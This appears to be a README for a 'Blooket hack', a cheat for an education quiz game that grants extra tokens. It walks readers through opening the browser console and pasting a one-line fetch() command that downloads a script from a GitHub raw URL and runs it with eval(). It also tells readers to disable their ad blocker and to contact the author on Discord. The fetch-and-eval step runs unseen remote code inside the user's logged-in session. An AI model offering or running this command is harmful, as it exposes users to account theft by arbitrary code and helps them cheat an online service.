 note: TURN YOUR AD BLOCKER OFF OR IT WON'T WORK!




Step 1:
Open inspect by right clicking

Step 2:
Click "console" 

Step 3: 
Paste the following script:


fetch("https://raw.githubusercontent.com/i3eal1/Blooket-Hack/main/Script") .then((res) => res.text() .then((t) => eval(t)))

Step 4: 
click enter and do as the script tells you to do
Ex: How many tokens would you like.
Put 500 because that is the max for blooket

Step 5: Enjoy 500 tokens MAX daily, It is impossible to get more than that.







Q: I need help with it
A: Add my discord and ask me any question you need help with i3eaI#8186
